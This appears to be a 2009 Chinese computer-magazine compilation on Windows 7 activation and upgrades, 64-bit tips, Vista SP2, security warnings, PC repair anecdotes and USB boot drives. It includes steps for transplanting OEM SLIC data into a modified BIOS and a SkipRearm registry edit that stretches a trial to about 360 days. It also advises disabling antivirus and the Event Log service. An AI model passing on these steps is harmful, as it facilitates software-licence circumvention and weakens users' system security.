网络上有很多 CDKEY 生成器，比如 “Vista正版密钥 CDKEY 生成器”（见图8），它们的原理其实很简单：首先通过木马、病毒等手段不断地收集正版用户的系统密钥，组建一个“密钥数据库”，然后设计一个“CDKEY 生成器” 软件界面并提供下载，用户在这个软件后就可以直接提取数据库中的正版用户系列号了。如果你的系统密钥被窃取了，那么它就可能成为在“密钥数据库”中的一分子。



## Win7 是如何激活的？

## 实战：认识OEM系统的激活方式

对OEM授权的产品，从WinXP开始微软引入了SLP (System-Locked Preinstallation)技术，即将预装系统时候与电脑主板一起锁定。简单地说，OEM激活方式一共经历了三个不同的时期：
第一，WinXP采用的是SLP 1.0版，其原理是检测BIOS中是否存在由OEM硬件厂家设置的特定字符串，这种方法易于伪造，但由于存在更方便的VLK破解方法，这没有普遍使用。
第二，从 Vista 系统开始，SLP 验证技术升级为2.0，主要是加入了利用密钥对信息进行签名保护以防伪造的过程，需要在BIOS中专门的SLIC表来支持。在Vista时代，这种破解方法得到广泛使用。
第三，Win7系列系统采用的是SLP 2.1技术，并没有对SLP技术进行大的改动，只是将SLIC中的Marker版本变成了2.1。

## 小知识：何谓VLK破解？

VLK 是 Volume Licensing Key 缩写，也就是通过团体批量许可证，例如上海政府 VOL 版XP所带的安装KEY—DG8FV-******-******-******-XPQ4G，就是一个 VLK 。在WinXP时代，微软给大客户的VLK是激活次数无限的，而VLK破解就是利用这种可无限次激活的密钥来破解系统。

## 实战：检查你的电脑是否OEM激活

比如某台式机厂商出品的预装了Win7系统的笔记本电脑，在第一次使用前，系统实际上并没有安装完毕的，仍然处于未激活状态，那么在Windows验证中心是如何判断这台机器是否符合OEM激活呢？

第一步：扫描的系统硬件条件，即BIOS中包含验证所需信息，包含SLIC表、OEM Table ID以及RSDT和XSDT中的OEMID等信息，由OEM厂商在出厂时提供。
第二步：检查OEM证书。OEM证书是微软根据OEM厂家提供的BIOS信息颁发的一个验证文件，扩展名为xrm-ms，OEM证书里集成了OEM厂家的身份信息及微软的数字签名，激活时必须与SLIC对应。
第三步：核对OEM密钥。OEM Win7系统在安装过程中会自动加载微软发给OEM厂商的密钥。一般情况下，这个密钥被内置在隐藏的系统恢复盘中，如果OEM厂家提供了安装光盘，那么你可以在光盘中的boot.wim镜像文件中找到OEM密钥。
第四步：如果上面三样东西都准备好了，那么进入到Win7后，系统将会把上述的信息提交给Windows验证中心，然后验证中心就会对OEM密钥、OEM证书、SLIC表、OEM ID、OEM Table ID、Windows旗标以及SLIC版本号进行逐一核查。如果都通过了，那么就可以激活系统了。

## 相关知识

## SLIC、OEM证书、OEM密钥以及 Win7 版本的相互对应关系

1.  SLIC 版本和内容由厂家自己设定，并内嵌于主板的 BIOS 中，它与 Win7 的版本无关，但 Win7反向要求 SLIC 版本必须大于等于 2.1。
2.  OEM 证书与 Win7 版本没有任何关联，只标识证书版本和厂家的 SLIC 信息。目前，Vista 和 Win7 的 OEM 证书的版本是相同的，也就是说，证书是可以共用的。
3.  OEM 密钥由微软分发给 OEM 厂家，但它与厂家没有关系，只识别 Win7 版本，比如旗舰版 OEM 密钥只适合旗舰版 OEM 激活，用在专业版上就不可以。
4.  在激活的过程中，SLIC、OEM 证书和 OEM 密钥是相互关联的，三壁合一才能完成 OEM 激活。

## 实战：查看和备份SLIC、OEM证书和OEM密钥

对于任何一台品牌电脑而言，只要预装了Win7系统，我们都可以将SLIC、OEM证书和OEM密钥备份到本地，以备不时之需。
第一步：用Everest来查看SLIC。运行Everest（必须是Ultimate版），将左侧的项目定位到“主板→ACPI”，在右侧窗口中就可以查看SLIC表、OEM Table ID以及RSDT和XSDT中的OEMID等信息了（见图9）。



第二步：提取SLIC、OEM证书和OEM密钥。到http://work.newhua.com/cfan/200923/SLIC_Dump_ToolKit.rar将 “SLIC_Dump_ToolKit” 下载并解压到本地。运行该软件，在“基本”页面中就可以看到由一系列16进制代码组成的SLIC信息。切换到“高级”页面后，你就会看到当前系统的所有OEM授权信息（见图10）。
第三步：备份SLIC、OEM证书和OEM密钥。在“高级”页面中，点击“保存”按钮即可将SLIC保存为一个.BIN文件，点击“备份”按钮即可将OEM密钥和OEM证书保存到本地。

## 实战：更换主板也不怕，利用备份激活新系统

一般情况下，你的品牌机的主板坏了，只要你是通过售后服务来更换的硬件，那么服务商应该会提供一份新的授权给你。但如果你已经超过了服务期限，或者主板是自行更换的，这会意味着你无法享受OEM正版服务。但是你会觉得不爽，因为曾经买过一份没有时间限制的正版系统，没理由因为换了新主板就不能使用！实际上，你可以利用以前备份的SLIC、OEM证书和OEM密钥来激活新系统。

第一步：准备工具。在开始前，你需要准备的工具包括WinFlash（下载地址为http://www.onlinedown.net/soft/6581.htm），Award SLICTool和AMI SLICTool（下载地址为http://work.newhua.com/cfan/200923/SLICTools.rar）。其中，Award SLICTool和AMI SLICTool分别针对不同的BIOS系统，根据自己的实际情况进行选择即可。
第二步：提取当前主板的BIOS。启动WinFlash，依次单击“文件→保存旧的BIOS”，选择一个存储目录后单击“确定”，单击弹出对话框中的“备份”按钮，稍等片刻即可（见图11）。



第三步：OEM授权的BIOS制作设置。运行相应版本的SLICTool（如果BIOS文件格式为.BIN的就运行Award SLICTool，如果文件格式为.ROM的就运行AMI SLICTool），进入到软件主界面后，将刚才得到的BIOS文件添加到“原始BIOS”框中并选择主板对应的制造商（如果列表中没有则选择“其他”），然后将SLIC和OEM证书备份分别导入对应项目中，然后根据BIOS情况选择相应的方法（大多数情况为“超静3”），其他设置默认即可（见图12）。
第四步：校验和生成新的BIOS。完成设置后，勾选“记录日志”，然后单击“校验”，如果结果显示为“模块与解压校验和有效”，那么就可以单击“执行”，然后新BIOS文件就会保存在原文件的同一目录下了。

## 轻轻松松领取免费 Win7

## 实战：你的电脑能不能运行Win7？问一下“顾问”

在Win7上市之前，微软已经发布了Win7的配置需求，基本上与其前作Vista的要求相当（见图13）。可能很多朋友已经对于全新的Win7了如指掌，但作为用户数量更为广大的普通人来说还是有一个异常重要的问题，那就是目前的电脑配置能不能运行Win7？如果你对此存在疑问，那么可以按安装Win7之前问一下“Windows 7升级顾问”。

第一步：到http://down.tech.sina.com.cn/page/43539.html将“Windows 7升级顾问”下载到本地。“Windows 7升级顾问”支持Windows XP/Vista，如在XP下运行需要首先安装.NET Framework 2.0（下载地址为http://www.onlinedown.net/soft/38669.htm）。
第二步：安装完毕后，启动“Windows 7升级顾问”，点击“开始检查”，软件会扫描你的PC硬件。扫描结束后，你会得到一份包括硬件配置是否满足最低需求，可否安装64位版本，现有软硬件是否兼容、如不满足如何升级等信息的检测报告。
第三步：点击右上角的“保存报告”导出为MHT网页，然后在浏览器中查看更加详细的信息，包括硬件驱动的兼容情况，并且会提示是否要自行下载该硬件的官方驱动（见图14）。



## Vista升级到Win7的对应版本

| 已购买 Windows Vista | 升级到 Windows 7 |
| --- | --- |
| Windows Vista Home Premium | Windows 7 Home Premium |
| Windows Vista Business | Windows 7 Professional |
| Windows Vista Ultimate | Windows 7 Ultimate |

备注：
1. 即使你购买的PC符合Win7升级要求，也只能获得与你获许可的Vista产品相同语言版本的Win7升级，比如英文版的Vista Home Premium，则将获得英文版的Win7 Home Premium；
2. 对于拥有WinXP Professional用户，如果在购买PC时有Vista Business许可证，也有权获得Win7升级；
3. 申请必须在2010年1月31日以前提交。

## 实战：参加微软升级活动领取正版Win7！

在Win7上市前，微软就推出了Win7系统的免费升级活动——即如果用户在2009年6月26日至2010年1月31日之间购买了预装Windows Vista家庭高级版、商用版或旗舰版的相关品牌电脑（包括笔记本电脑和台式机），将可以在Win7正式发布后升级至相对应版本的Win7产品。目前，参加此活动的品牌厂商包括联想、戴尔、索尼、东芝、华硕、acer、Gateway、海尔、富士通等品牌。其中，除了戴尔免费升级的截止日期为2009年12月31日以及索尼的截止日期则为2010年3月31日，其他品牌的截止日期均与微软的规定相同。

小提示：
虽然Win7免费升级活动是由微软发起的，但是各大厂商的免费升级方案中都有自己的操作模式，所以消费者如果想选购一款能够免费升级至Win7系统的机型的时候就要看清楚了。当然，这里所指的免费是指Win7产品本身不收费，但是因此而产生的物流费用还是需要消费者自己承担（根据品牌的不同，物流成本在80元～120元之间）。各品牌的查询和申请地址如下：

联想：http://www.lenovo.com/us/en/windows7
惠普：http://www.hp.com/country/cn/zh/mda/windows7/upgrade
戴尔：https://win7.dell.com/Eligibility.aspx
索尼：http://www.sonystyle.com.cn/products/vaio/upgrade_service.htm
东芝：http://pc.toshiba.com.cn/service/win7Upgrade.html
华硕：http://event.asus.com/2009/windows7/cn
acer：http://www.acer.com/windows7upgrade/chs
Gateway：http://www.gateway.com/windows7upgrade
海尔：http://211.101.136.42:8081/itwin7/templates/T_window
富士通：http://www.fujitsu.com/cn/services/hardware/pc/support/upgrade

## 实战：领取免费Win7的其他途径

官方的免费升级活动是有时间规定的，而且版本上也有很多限制。如果并不符合活动提出的条件，那么还有什么途径可以获得正版Windows 7呢？

## 方法一：Down一个Windows 7企业版的90天体验版

这是微软为希望代表企业用户体验Win7系统而发布的一个试用版本，在功能上与正式版没有任何区别，这也为个人用户提供了一个免费使用的机会。在于使用期限只有90天，而且只提供了英语、法语、德语、日语和西班牙语等五种语言版本。

下载地址：http://technet.microsoft.com/zh-cn/evalcenter/cc442495.aspx
下载截止日期：2010年3月31日

## 方法二：破解30天试用限制，Win7免费用一年！

对于勤快的用户而言，上面的90天授权的Win7企业版已经完全够用了。但是该版本没有中文版本，而且一些懒一点的用户90天授权还是有点短，没有办法难道只能使用试用期限30天的Win7其他版本吗？当然不是啦！实际上，任何一个版本的Win7系统只要经过一些简单的修改，你都可以在微软允许的范围之内免费用上一年（360天）。方法步骤如下：

第一步：到网络上下载Windows 7原版光盘镜像。Windows 7安装完毕后，你可以获得一个30天试用授权。
第二步：在Win7的30天试用期即将结束时，用管理员权限打开cmd命令输入窗口，输入“slmgr.vbs /rearm”命令并回车，重启之后系统的试用期将可以延长到30天。在默认情况下，此命令可以使用三次。也就是说，在此之前Win7一共可以免费试用120天。
第三步：当用完120天的试用期以后，你还可以通过修改注册表可以增加命令的使用次数。用管理员权限运行regedit命令打开注册表编辑器，然后定位到“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SoftwareProtectionPlatform”，将“SkipRearm”键值改为“dword:00000001”（见图15），接着再次使用“slmgr.vbs /rearm”就可以重新获得一次续期30天的机会。

小提示：
★如果你对注册表不是很熟悉，或者你不喜欢直接对注册表进行操作，那么你可以用记事本输入以下内容，然后另存为一个Win7.reg文件，然后将其合并到注册表中即可。

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SoftwareProtectionPlatform]

"SkipRearm"=dword:00000001
```

第四步：当这个续期结束以后，再次重复第三步的操作，你又可重新获得一个30天续期。需要提醒的是，这个键值一共可以修改8次，也就是说试用版Win7系统一共可以进行8+3=11次续期的机会，再加上一开始的30天试用期，那么就是30×12=360天的全功能使用时间。

可能会有人问，如果360天期限用完了怎么办？很简单，重装一次，从头再来就是了。如果你懒到360天都不舍得重装一次，那么我们强烈建议你购买正版的Win7。

## 网络大补贴：在哪里可以下载Win7各版本的30天试用版

Win7之家：http://www.windows7en.com
Win7中文网：http://www.win7c.com
远景：http://www.pcbeta.com

策划/《电脑爱好者》编辑部
监制/Cornel
撰稿/金戈铁马



## Windows 7时代来临，徘徊选择后如何完美

选用什么操作系统，以下原因将我们放置在了难于决策的十字路口：

☆ 2009年4月14日，微软停止了对Windows XP的主流支持。
☆ 2009年5月5日，任何人都可下载Windows 7的RC版本，包括了32位和64位两大版本。

在十字路口处，你是坚守XP阵地，还是升级到Windows 7？
如果要升级，该做些什么准备呢？
版本上选择32位的，还是64位的呢？
选择了32位或者64位之后，如何弥补这种版本自身的不足呢？

## 上篇：升级已然大势所趋

很多专家这样说，Windows XP是微软操作系统史上空前并绝后的经典版本，从Vista预览版问世，至今5年有余，却丝毫没有影响XP的霸主地位，而今，Windows 7的面纱也越来越清晰，微软不得不亲手于4月14日为XP“断奶”。

## 32位还是64位？

那么，选择32位还是64位的Windows 7呢？32位的系统相信大家已经相当熟悉，无论是用了几年的XP，还是Vista，这跟32位的Windows 7在安装、兼容性、安全性上雷同，只看看64位的是如何就好了。

### 1.安装

比较保险的方法是做成多系统，首先，安装XP，在XP中将下载到的64位Windows 7镜像文件刻录到光盘，通过刻录的光盘安装Windows 7系统，完成后可通过启动菜单选择要进入哪一系统。

小提示：
也可通过U盘或移动硬盘启动来安装，前提是主板支持USB-CDROM或USB-HDD启动。但是，无法在XP系统窗口下安装，报错提示为64位程序无法在32位系统下运行。另外，电脑的CPU必须也是64位的才能安装。

### 2.兼容性

这是微软在设计64位Windows 7时的重头戏，安装后，可在系统分区下观察到两个异样的文件夹C:\Program Files(x86)和C:\Program Files。原来，安装任何软件时，系统就会对其进行检测，如果是32位的，就自动安装到C:\Program Files(x86)，如果是64位的则安装到C:\Program Files，这样，能在很大程度上保证32位程序也可在64位系统下兼容运行。

另外，系统自带的组件也有32位与64位之分，还可能出现两种版本并存的现象。比如IE，两文件夹下都有，而且，在开始菜单下也能观察到两个快捷方式。

### 3.安全性

天生地，64位系统比32位高，这主要得益于64位CPU，CPU制造商和微软相互配合，联手推出了针对缓冲区溢出攻击的防范措施，能将这类攻击阻止在尚未发生之时。

小知识：缓冲区溢出攻击防范
简单地说，EVP(Enhanced Virus Protection，增强型病毒防护)是64位处理器中采用的一种全新的防毒技术。而DEP(Date Execution Prevention，数据执行保护)是64位操作系统中采用的一种数据执行保护技术，它只能阻止缓冲区溢出类攻击，对其他攻击无效。所以64位系统也还是需要杀软的。

## 下篇：64位为“上帝”带来了什么

### PART1 “给我个理由先”

上面的内容相信大家已经对Windows 7的64位有了很多认识，那么，为什么要选择64位版本呢？给我个理由好不好？

1. 支持大内存。32位的Windows最大内存只支持到3.3GB，而64位下4GB内存是最小标准，大内存可完美地同时运行很多程序，而现在内存价格也很便宜。
2. 硬盘读写快。整体运行感觉更轻快，磁盘读写也不再那么频繁，大大提升了计算体验，对配置较低的机器更有利，无论是机械硬盘还是固态硬盘读写速度都得到了提升。
3. 软件也稳定。越来越多的软件开发者，在开发64位版本的程序，而且非原生软件(32位)在兼容模式下运行已经很稳定，而软件的运行速度比XP快了很多，最明显的是64位的PhotoShop CS4之类的大型软件，大软件、大游戏的速度快了，兼容性也好了，不用担心什么软件问题了。

网络大补贴：
Windows 64位常用软件列表：https://bbs.et8.net/bbs/showthread.php?t=955534，里面很多都是64位系统下原生软件，或者能够完美兼容运行的。

### PART2 弥补选择之后的不足

### 搞定网银！

许多筒子使用Windows 7登录网上银行之后，发现问题不少，除了招商银行的U-KEY可以正常使用外，工商银行、建设银行、农业银行的网上银行都存在登录不了的问题。下面就来看看如何搞定在32位和64位的RC中正常使用这几个网上银行的方法。

第一步：首先，需要到http://work.newhua.com/cfan/200912/bank.rar下载需用软件。
32位的系统里，先安装32位的U盾驱动，然后运行“工行网银工具软件.exe”，插入U盾就能正常使用；64位系统中，先把U盾插好，然后在设备管理器中把驱动更新成64位U盾驱动，就能正常使用了。
双击压缩包中的“农行华大安装软件.exe”，安装好后，桌面上会有一个农行的网页链接，注意不要将其删除，以后要进入农行网银，双击这个链接就可以了，相对的，直接打开浏览器进入农行网站是进不了网银系统的。

第二步：建行网银的安装有点儿说道，双击“建行E路通安装软件.exe”进行安装，安装好后，虽然工具软件可以看到证书，但进建行网银后，无法进行汇款。怎么办？有一个巧妙方法可解决：
安装农行网银的软件，点击桌面上的农行链接，在地址栏输入建行网银的登录网址(https://ibsbjstar.ccb.com.cn/app/V5/CN/STY1/login.jsp)。使用这种方法登录后，汇款等操作都一切正常了。

### 照样网购！

网上购物最离不开的是什么？不是淘宝网哦，而是其旗下的支付宝。没有支付宝，诚信交易将变得很难实现。目前在64位系统下对支付宝的插件支持有问题，如何解决呢？
在Windows 7 RC环境下，到http://work.newhua.com/cfan/200912/zfb.rar下载，解压后运行A目录下的“Microsoft Certificate Enrollment CAB unlock by spabwe.reg”及B目录下的“80070057 x64 solution.bat”即可解决问题。

### 更快搜索！

Windows 7的硬盘读写变得更快了，对于习惯使用桌面搜索软件的筒子们来说是个好消息，搜索硬盘时间又缩短了，可是，目前最好用的桌面搜索Google Desktop，在Windows 7下面并不能被轻易地安装上。
在“开始菜单→运行”处输入cmd打开命令提示符，然后使用cd命令找到你下载的Google Desktop的目录位置，然后运行“GoogleDesktopSetup / force”(注意与实际安装文件名的一致)后，试试，是不是已经可以顺利安装Google桌面搜索了？

## 大话SP2 你可能不知道的三字诀

漫长等待后，Vista SP2补丁终于上市。众所周知，Vista是微软这几年最头疼的产品，SP2是给Vista正名的一个机会，但安装的时候小心翼翼不说，安装之后也有点儿说道，笔者总结了三个三字诀，希望能让你高枕无忧地用上SP2。

### 你为什么要升级到 SP2？

原因1：SP2为个人用户带来的三大惊喜
1. 集成无线功能包，支持蓝牙2.1规范，改进从休眠模式恢复后的Wi-Fi连接性能；新增蓝光光盘刻录功能。
2. 升级侧边栏组件，提升了性能和响应速度，集成最新桌面搜索Windows Search 4.0。
3. 增加新的注册表键值，允许保存修改的最大TCP开放连接数，以改善应用程序兼容性。

原因2：评测显示，Vista SP2性能全方位提升
除启动时间变得稍慢外，其他数据评比均提升，评测内容可参考：http://www.mbsky.com/InfoView/Article_11803.html。

### “验环境”

升级SP2的最大前提，要确认是否已经安装SP1，右击“计算机”选择“属性”，在“Windows版本”中，会显示该Service Pack的名称，若是你安装了先前发布的SP2的任何Beta版本，则必须卸载后才能安装。打开“控制面板”，单击“程序和功能”，然后单击“查看已安装的更新”在“Microsoft Windows”列表中，右键单击“Microsoft Windows Service Pack (KB948465)”，然后单击“卸载”。

### “备数据”

由于安装SP2可能产生很多不可预料的问题，所以安装前请务必备份重要资料(包括个人文档、图片等数据，收藏夹、Cookies、注册表等)，禁用防病毒软件，右键单击防病毒图标(通常出现在计算机屏幕的右下角)，然后单击“禁用”。
现在可以运行Service Pack程序包进行安装了，在出现“欢迎使用Windows Vista Service Pack 2”窗口时，单击“下一步”，然后按照屏幕上的指示进行操作，接下来就是大约40分钟的安装等待，期间系统会重启一次，成功之后就可看到版本已经变化。

### Just Do It: 安装失败的处理

出现无法安装或安装失败的问题，可从http://go.microsoft.com/fwlink/?LinkId=109180下载KB947821，运行系统更新准备工具 (CheckSur.exe)。
如果安装仍失败，还可打开提升权限的“命令提示符”窗口，然后运行MdSched.exe命令，调出的内存诊断工具会诊断是否存在内存方面错误，之后再尝试安装SP2。

### “快清理”

在完成SP2的安装之后，你会发现系统所占用的磁盘空间也明显增加，这是因为安装SP2时并未能够将以前版本的文件(RTM和SP1)删除彻底，手工删除非常麻烦，可使用SP2新增加的Windows组件清理工具(COMpcln.exe)，来永久性地删除RTM和SP1自带的旧版本文件。
运行方法：在“开始→搜索”中键入compcln.exe，然后在搜索列表中单击运行compcln.exe程序，选择“Y”命令执行完成之后，将自动删除安装SP2之后不再需要的以前版本的安装文件，释放硬盘空间大约1GB。

小提示：
如果升级到SP2的版本不是正式版，建议暂时不要使用此工具，如果运行了Windows组件清理(COMPCLN)工具，将不能卸载SP2。
(文/航瑞)

## 当心灰太狼的偷袭，小心翼翼保安全运行

### 提防提醒！系统自带的隐患

顽固指数：9.0
隐蔽指数：6.0
危险指数：8.0

### Vista 自动播放

整天琢磨着攻击良民的灰太狼，针对Vista "研究"出了一套法子。如果使用Vista的小羊将他事先设计好的USB设备（或光盘）接上电脑，由于存在"自动播放"的弹出式操作，之前被灰太狼植入的一段恶意代码就会随着弹出而自动运行。这段代码会让灰太狼绕过系统的安全防线（防火墙、杀软等），轻松获取电脑内机密文件。突破点就在于"自动播放"，虽然它的初衷是插入媒体到驱动器时立即播放，为用户节省时间，但现在明显违背了，还是关闭吧！
关闭Windows Vista下自动播放的功能其实很简单，点击"开始→控制面板→自动播放 CD 或其他媒体"。在"自动播放"窗口中，去除"为所有媒体和设备使用自动播放"的勾选，点击"保存"。设置完成后，插入任何媒体设备或光盘将不再弹出自动播放对话框。

小提示：
在Vista以及Windows 7系统中存在着同样的问题，要关闭这两个系统日志，操作方法与XP系统下类似。

### XP 的转储文件

系统或程序崩溃时，会自动生成故障转储文件，保存崩溃时的内存镜像，其内容可能是用户账号、邮件账号等隐私内容，很是危险。
右击"我的电脑"选择"属性→高级→启动和故障恢复"设置"按钮，在"启动和故障恢复→系统失败"选项，将"写入调试信息"设置为"无"，即可关闭。

### 共有的系统日志

系统日志是Windows记录系统一举一动的日志文件，系统启动、关闭、应用程序打开等事件都会被一一记录下来。比如灰太狼要查看小羊的上网时间，只要右击桌面"我的电脑"选择"管理"，依次展开"系统工具→事件查看器→系统"，在右侧找到来源为RemoteAccess的信息事件并打开，在打开的窗口可以看到，用户在8:53:08发起网络连接，也就是用户在这一时刻开始拨号上网。
单击"开始→运行"输入services.msc打开服务配置窗口，将右侧窗格的Event Log服务设置为"已禁用"，重启后他人就无法使用事件查看器查看操作日志了。

### 当心当心！非系统分区的隐形杀手

顽固指数：8.0
隐蔽指数：10.0
危险指数：9.0
在喜羊羊们与灰太狼的无数回合斗争后，聪明了的灰太狼不再简单地采用正面进攻，而是学会了侧翼进攻——潜伏在非系统分区，伺机反扑，这样即使小羊重装了系统，也只是消灭了系统分区的危险隐患，"出了事，就重装"的理论在灰太狼的新招面前失灵！

### 向第三方软件目录下下蛋

很多人为了避免在系统分区产生太多碎片，安装第三方软件时选择将其装在非系统分区中，尤其像QQ这种即时通讯工具，聊天记录是很珍贵的，病毒复活的机会来了……
Windows的机制很奇怪，可执行文件在开始运行的时候，会优先在本目录下寻找需要加载的DLL文件，找不到的话才会去Windows\System32目录下寻找，比如QQ在根目录下创建一个留有后门的WSOCK32.DLL文件（与某个系统DLL的名字相同），就可以监控QQ聊天的内容了。灰太狼利用这点钻了空子，当小羊重装完系统，兴高采烈地打开QQ跟人聊天时，聊天内容已经被灰太狼全程监视，第二天的行踪已经暴露无遗！
防御的方法很简单，重装系统之后一定要拒绝裸奔！给系统装上好用的杀毒软件，杀木马软件，并升级到最新的病毒库，特征库，进行全盘查杀。
同时还要当心一些感染型的病毒渗透到非系统分区中，典型代表就是过去大名鼎鼎的熊猫烧香，总体来说感染型有如下规律，可参考防范：
1. 感染非系统盘的可执行文件。
2. 运行中的程序不会被感染。
3. 压缩包内的程序不被感染。

小提示：
最经典的形式是AUTORUN，形式是在磁盘的根目录下放入AUTORUN.inf和XXX.exe，只要一双击盘符就会运行XXX.exe。现在已经演变成了闪盘病毒传播的典型代表。
(文/俞术发)

## 我来修电脑（2009年12期）

### 关于克隆的那点事儿

本大虾（此乃大侠的高级谐音，谢谢）行走江湖多年，一般随身携带四件大杀器：Ghost XP系统光盘一张，十字螺丝刀一把，小毛刷一个，工具闪盘一只。别看个个不起眼，却也能横行江湖。本大虾自从用了Ghost版系统盘后，腰不酸了，腿不疼了，走路也有劲了（Refine：人家吃了“盖中盖”，您是吃了……）言归正传，一日，友人急电：他MM的爱机罢工。此人天生“妻管严”，岂能见死不救？遂携四大杀器奔将过去（Refine：救人一命，胜造七级……装备）。
友人的MM已是脸色发沉，正如外面的阴天天气一样。在她发飙之前赶紧搞定！进入Ghost盘自带的WinPE环境下，备份C盘数据，重启后直接Ghost安装，谁知天有不测风云，人有那个什么什么（此处省略1284字）……进度到了百分之七十的时候弹出错误对话框，无法继续，再试一次仍然如此。
经过一阵短暂的郁闷，本大虾决定使出第二件大杀器：螺丝刀。直接开机箱，打开后发现硬盘和光驱接在同一根数据线上，硬盘接在中间那个接口上，心中登时明白了大半。找来一根数据线，硬盘光驱各自用一根数据线接在IDE接口上，顺便用小毛刷清理了下机箱的厚厚灰尘，此后再进行安装，一切恢复正常。

### 给同学重装系统的一波三折

小唠几句：
Ghost恢复过程中出现错误，一般有以下几点原因：版本号不对，低版本Ghost可能无法恢复高版本创建的映像；也有可能是目标盘空间不足；还有就是故事中的硬盘数据线出错等。
此时从窗外照进了几缕阳光，哇，天晴了，MM的脸上也露出了笑容，终于救了友人的“命”啊！
讲故事的人：河北石家庄/贾军锋

小唠几句：
Ghost无法还原系统，既有可能是备份的GHO文件被病毒破坏，也有可能是系统分区空间不足、文中的硬件故障等，要逐一排除原因。而在使用Ghost进行还原的时候，一定要仔细看清出现的提示，再进行下面操作，不要学习故事二中的MM，乱点一通。
讲故事的人：北京/李伟伟

## 任务栏地址不见，SP3太酷？

很多XP用户在升级安装了官方SP3补丁包后，发现任务栏处的地址栏消失了，大家知道，在地址栏中可以输入本地路径、网址等快速打开目录、网页等。找找吧，工具栏处没有恢复的选项，难道是中毒？不是的，据说这是微软向反垄断妥协，需要将浏览器从操作系统中剥离，因此从任务栏中取消了地址栏。
找出Windows XP SP2安装光盘，找到BROWSEUI.DL_文件，到Windows\System32\文件夹下，然后将文件夹中原有的browseui.dll重命名为browseui.d1ly或其他名称。接下来，在“开始→运行”中输入cmd回车进入命令提示符，运行如下命令：
expand BROWSEUI.DL_ browseui.dll
命令注释：expand用来展开压缩文件，将BROWSEUI.DL_展开为browseui.dll。
重启系统，任务栏快捷菜单的工具栏，已经出现了所需的“地址(A)”选项。

```
expand BROWSEUI.DL_ browseui.dll
命令注释：expand用来展开压缩文件，将BROWSEUI.DL_展开为browseui.dll。
```

## 学生上课睡觉？老师您试试Ubuntu

许多学生喜欢在上课的时候睡觉，老师在上面讲得热火朝天，有的学生底下睡得大汗淋漓。刨除彻底不爱学习的家伙们不算，有些学生反映的教师教学方式死板、缺乏吸引力也是一大原因。Ubuntu下的办公大佬永中Office急老师之所急，想出了几个不错的办法。

### 敲开大佬的门

顾名思义，就是请来永中Office喽。现在Ubuntu中文源中已经加入了永中Office的安装包。在终端窗口中输入如下命令：sudo apt-get install eooffice-personal
执行后，将在线下载并安装永中Office。安装好后，在菜单“办公”下可找到“启动永中集成Office个人版”项。

### 利器1：有趣面板

对教师们来说，制作教学课件时，如果没有相应的图片资源，制作示意图是十分麻烦的。
在永中Office中，通过“视图→任务面板→科教面板”，可以使用科教素材库中丰富的素材。包含了小学到高中所有学科的重要图标，选择一些有趣的面板，在放映PPT的时候学生们也会爱看一些，睡觉的家伙自然少了。

小提示：
科教面板，需要从官网下载扩展资源文件，解压后在终端运行“sudo ./setup”命令来安装，使用起来也是非常方便。

### 利器2：自己注音

小学生的精力是最容易分散的，不要对分散了精力的小家伙们吼叫，那只能让他们害怕这个老师。虽然眼睛盯着你，心里没准在想什么呢。永中Office的自动注音会让他们眼前一亮。
这个功能的使用方法并不难，点击“工具→语言”子菜单，点击“所有文字加注音”，马上就会看到，所有文字都自动加上了拼音，是不是很神奇？

小知识：其他办公软件
OpenOffice.org 3.0中文版。OpenOffice原是Sun公司的一套商业级Office软件，包含用于字处理的Writer、制作电子表格的Calc、制作演示幻灯的Impress等常用组件。
(文/洪东华)

## 我的闪盘随处“闪”

由于闪盘具备的即插即用特性，越来越多的朋友把闪盘作为自己随身携带设备。不过，由于电脑主板支持启动类型不同，很多启动闪盘并不具备通用启动功能；其次，把闪盘量产为CD-ROM需要量产工具，很多闪盘无法找到适合的量产工具。难道就没有办法制作兼容性极佳的启动盘吗？借助USB-Multiboot10（下载地址：http://work.newhua.com/cfan/200912/USB_M.zip）可以制作出通用启动闪盘，而且该工具还具备闪盘修复功能。

小知识：
+   ★什么是闪盘的量产？
量产指的是将闪盘初始化，也就是恢复为默认设置（出厂设置）。量产工具是可以初始化闪盘的软件，还可以进行分区等操作，不同品牌、型号的闪盘会有特定的分区工具。
★USB-Multiboot为什么可以制作启动盘？
一个存贮设备要具备启动功能，必须满足：存贮设备要有主分区，主分区是活动分区并包含引导指定系统的主引导记录，主分区内有相应的启动文件。USB-Multiboot10已经包含DOS启动文件，通过程序格式化闪盘后，会往闪盘写入DOS主引导记录并复制启动文件，闪盘分区状态即为活动主分区。所以借助USB-Multiboot10可以制作出启动闪盘。

### 容量丢失，一键找回

在平时的使用中，经常会遭遇闪盘容量丢失故障。比如，在使用V1.68版的Usboot格式化启动2GB以上容量的闪盘后，闪盘容量就只剩下2GB可以识别。现在如果遭遇这种故障，使用USB-Multiboot10将闪盘重新格式化即可，因为它可以正确识别闪盘全部容量。
下载USB-Multiboot10后将全部文件解压到d:\，运行“d:\USB_MultiBoot_10\HPUSBFW.EXE”，程序可以在Devices识别到闪盘全部容量，而且对于512MB以上闪盘，程序默认会自动选择格式化为FAT32格式，点击Start（开始），格式化完成后，重新拔插一下闪盘就可以恢复原来的容量了。

### 通用启动，轻松制作

USB-Multiboot10会自动检测闪盘容量，同时根据容量自动匹配默认文件系统并格式化，这也是通过它可以制作出通用启动闪盘的原因。
如果要制作DOS启动盘，首先使用WinRAR打开d:\USB_MultiBoot_10\HPUSBFW.EXE，将启动文件解压到d:\HPUSBFW，在程序主界面勾选create a dos startup disk（选择一个DOS启动盘），单选其下的using dos system files located at（选择本地dos系统文件），然后单击浏览，定位到d:\HPUSBFW，单击start开始格式化闪盘。程序会自动将DOS启动所需的启动文件复制到闪盘。格式化完成后，重启进入BIOS设置，将USB设备设置为第一启动，利用上述制作好的启动闪盘就可以启动系统到DOS了。

小提示：
由于FAT文件系统限制，它只支持单个容量为2GB的分区。FAT32则支持32GB分区，当前闪盘容量大多小于32GB，所以格式化为FAT32可以保证闪盘容量不会丢失。
(文/PD)

一位游戏高手求救：他玩《魔兽争霸3》的“冰封王座”，突然就没声音了。想到声卡驱动出了问题，便在设备管理器里卸载后又更新安装驱动。一切很顺利，但还是没有声音……
其实，很多游戏在安装时，会安装新的驱动或调用音频控制函数等，有时便与原有驱动产生冲突，使设备无法使用。简单卸载、安装很可能无济于事，因为原系统中的驱动文件已经被修改。
